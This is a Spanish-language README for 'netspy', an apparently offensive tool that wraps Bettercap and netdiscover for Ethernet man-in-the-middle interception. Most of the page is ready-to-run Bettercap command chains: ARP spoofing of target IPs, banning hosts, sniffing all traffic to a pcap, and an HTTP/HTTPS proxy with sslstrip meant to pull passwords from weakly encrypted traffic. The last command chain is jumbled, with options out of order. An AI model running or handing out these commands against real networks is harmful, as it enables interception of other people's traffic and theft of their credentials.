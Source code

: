 # Interceptacion Ethernet
Escemarios:
<img style="float:left" alt="Escenarios interceptacion" src="https://github.com/hackingyseguridad/netspy/blob/master/MiTM.png">
#
<img style="float:left" alt="netspy logo" src="https://github.com/hackingyseguridad/netspy/blob/master/netspy.png">

# netspy

# 1.- Descubre elementos de red 2.- Captura y muestra en pantalla el trafico.

# Instalacion:

apt-get install bettercap

apt-get install netdiscover

git clone https://github.com/hackingyseguridad/netspy

cd netspy

chmod 777 netspy

# Uso.:

sh netspy

sh proxynetspy

netdiscover

IMPORTANTE: Para salir del modo de descubrimiento 'net probe on' y empezar a esnifar teclea 'exit'.

# Bettercap v2.9

Escanear toda la Red:

net.probe on; ticker on

Banear tarjet IP con ARP:

set arp.spoof.targets IP; arp.spoof on; set arp.ban on; net.probe on

Capturar trafico en fichero siff_all.pcap:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.output /tmp/sniff_all.pcap; set net.sniff.verbose false; net.sniff on

Ver Trafico:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on

Ver trafico web por proxy y extrae claves:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on; http.proxy on; set http.proxy.sslstrip true

Ver trafico web por proxy y extrae claves de cifrados debiles:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on; http.proxy on;  true; set http.proxy.port 80; set https.proxy.port 443; http.proxy on; https.proxy on; set http.proxy.sslstrip

www.hackingyseguridad.com
